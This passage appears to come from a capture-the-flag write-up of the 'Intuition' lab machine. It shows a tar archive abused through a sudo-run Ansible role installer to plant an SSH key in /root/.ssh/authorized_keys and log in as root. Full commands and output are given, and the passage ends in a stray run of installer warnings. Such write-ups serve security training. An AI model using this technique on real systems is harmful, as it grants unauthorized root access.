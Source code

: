 I can’t install the same name twice. I’ll rename it:

```

lopez@intuition:/dev/shm/.0xdf$ mv 0xdf.tar 0xdf2.tar
lopez@intuition:/dev/shm/.0xdf$ echo '{"run": {"action": "install", "role_file": "0xdf2.tar"}, "auth_code": "UHI75GHINKOP"}' > 0xdf.json
lopez@intuition:/dev/shm/.0xdf$ sudo /opt/runner2/runner2 0xdf.json 
Starting galaxy role install process
- extracting 0xdf2.tar to /root/.ansible/roles/0xdf2.tar
- 0xdf2.tar was installed successfully
[WARNING]: Meta file /root/.ansible/roles/0xdf2.tar is empty. Skipping dependencies.
lopez@intuition:/dev/shm/.0xdf$ ls -l root 
-rw------- 1 root root 96 May  4 20:30 root

```

It worked!

#### Shell

To finally exploit this, I’ll re-make the tar one more time, pointing at `/root/.ssh/authorized_keys`:

```

root@hacky[~]# python create-role-archive.py 0xdf3.tar ed25519_gen.pub /root/.ssh/authorized_keys

```

I’ll upload it and run it:

```

lopez@intuition:/dev/shm/.0xdf$ echo '{"run": {"action": "install", "role_file": "0xdf3.tar"}, "auth_code": "UHI75GHINKOP"}' > 0xdf.json
lopez@intuition:/dev/shm/.0xdf$ sudo /opt/runner2/runner2 0xdf.json 
Starting galaxy role install process
- extracting 0xdf3.tar to /root/.ansible/roles/0xdf3.tar
- 0xdf3.tar was installed successfully
[WARNING]: Meta file /root/.ansible/roles/0xdf3.tar is empty. Skipping dependencies.

```

Now I can SSH as root:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@comprezzor.htb
root@intuition:~# 

```

## Beyond Root - Unintended Root

### Background


[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /dev/shm/0xdf.tar was NOT installed successfully: the specified roles path exists and is not a directory.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.